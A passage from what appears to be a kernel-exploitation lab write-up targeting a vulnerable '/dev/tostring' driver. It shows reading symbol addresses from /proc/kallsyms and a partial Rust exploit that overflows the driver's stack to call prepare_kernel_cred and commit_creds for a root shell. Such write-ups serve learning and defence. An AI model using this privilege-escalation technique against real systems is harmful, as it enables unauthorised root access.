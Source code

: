 The kernel directly exposes the kernel functions adresses in the `/proc/kallsyms` file (even for non root user), meaning we do not need to leak a pointer from kernel space.

```bash
$ cat /proc/kallsyms | grep prepare_kernel_cred
# 0000000000000000 T prepare_kernel_cred
$ cat /proc/kallsyms | grep commit_creds
# 0000000000000000 T commit_creds
```

### Getting root

Piecing all of this together, we modify the previous script to exploit the vulnerability and get a root shell :

```rust
use std::{
    arch::asm,
    fs::OpenOptions,
    io::{Read, Write},
};

const TOSTRING_STACK_SIZE: usize = 64;

const PREPARE_KERNEL_CRED_EA: usize = 0xc10711f0;
const COMMIT_CREDS_EA: usize = 0xc1070e80;

extern "C" fn escalate_privileges() -> isize {
    unsafe {
        asm!(
            "xor eax, eax",
            "call ebx", // syscall abi (takes args from eax, ecx, edx)
            "call edi", // same
            in("ebx") PREPARE_KERNEL_CRED_EA,
            in("edi") COMMIT_CREDS_EA
        )
    };

    0
}

fn main() {
    println!("[-] @prepare_kernel_cred = 0x{:x}", PREPARE_KERNEL_CRED_EA);
    println!("[-] @commit_creds = 0x{:x}", COMMIT_CREDS_EA);
    println!("[?] Check out function addresses in /proc/kallsyms");

    let intval: usize = 0xdeadbeef;
    let tostring_read_override_ea: usize = escalate_privileges as usize;

    let mut dev = match OpenOptions::new()
        .read(true)
        .write(true)
        .open("/dev/tostring")
    {
        Ok(f) => f,
        Err(e) => {
            eprintln!("Failed to open /dev/tostring: {}", e);
            std::process::exit(1);
        }
    };

    println!("[*] Filling stack");
    for _ in 0..TOSTRING_STACK_SIZE {
        dev.write_all(&intval.to_le_bytes())
            .expect("Failed to write to /dev/tostring to override stack");
```
